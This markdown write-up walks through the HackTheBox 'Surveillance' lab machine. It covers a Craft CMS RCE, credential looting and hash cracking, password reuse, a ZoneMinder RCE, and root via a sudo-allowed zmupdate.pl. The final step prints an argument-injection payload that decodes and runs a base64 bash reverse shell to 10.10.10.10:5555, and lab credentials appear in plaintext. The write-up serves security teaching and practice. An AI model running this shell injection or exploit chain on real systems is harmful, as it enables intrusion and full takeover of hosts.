 ```yaml
---
layout: default_1
title: "Surveillance - HTB"
date: 2024-04-20
tags: writeup hackthebox surveillance
---
```


# HTB Surveillance Write Up
![HTB Surveillance](/assets/2024-04-20-writeups-surveillance-htb/machine_info.png "HTB Surveillance")


## Introduction
Surveillance provider company with focus com home security.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

~~~
</div>
</details>

## Investigation
The http server redirects to a vhost `surveillance.htb`.  

The main website is static, and it was created with `Craft CMS`
![Main Website](/assets/2024-04-20-writeups-surveillance-htb/main_website.png "Main Website")
![Craft CMS](/assets/2024-04-20-writeups-surveillance-htb/craft_cms.png "Craft CMS")

The CMS version in hyperlinked in the website `https://github.com/craftcms/cms/tree/4.4.14`.  
This version is vulnerable to a RCE vulnerability with a public exploit - [CVE-2023-41892][cve-2023-41892]

Running the exploit return a shell with `www-data` user
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Manually enumerating the server, the following information was obtained
- Mariadb runnning on port 3306
- Two users with shell: matthew and zoneminder
- CraftCMS database credentials on .env file
   - user: craftuser
   - pass: CraftCMSPassword2023!
- Backup folder with a database dump
   - /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip

The current CMS database only had one user with a high iteration on the hash. This make it hard to crack, executed hashcat anyways.
`admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe`

Meanwhile, searching the backup for more information. The backup stored the admin pass with a weak hash.
`admin@surveillance.htb | 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`
Easily cracked to `starcraft122490`

Checking for password reuse and logged as matthew.
```
$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```

No sudoers entry for this user. Moving on to run linpeas on the system.
Linpeas found another credential, this time for Zoneminder database on /usr/share/zoneminder/www/api/app/Config/database.php
- user: zmuser
- pass: ZoneMinderPassword2023

Search for more password hashes in the database and found another uncracked hash
`admin | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.`

Moving on to zoneminder service. The service description is
`A full-featured, open source, state-of-the-art video surveillance software system.`
Again, vulnerable to Unauthenticated RCE [CVE-2023-26035][cve-2023-26035].

Moved to the other user on the box, zoneminder
```
$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

Verifying sudores:
```
$ sudo -l
...
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

/user/bin/zm\*.pl is a suite of tools for the zoneminder service.
One way to exploit this suite is by abusing the zmupdate.pl tool, as shown in [this blog][zm-privesc].
Reverse shell example:
```
$ sudo /usr/bin/zmupdate.pl --version 1 --user='$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC81NTU1IDA+JjEK | base64 -d | bash)'
```

```
# whoami
root
```


[cve-2023-41892]: <https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226> "cve-2023-41892"
[cve-2023-26035]: <https://github.com/rvizx/CVE-2023-26035> "cve-2023-26035"
[zm-privesc]: <https://vk9-sec.com/privilege-escalation-zoneminder-scripts-command-injection-local/> "ZoneMinder PrivEsc"
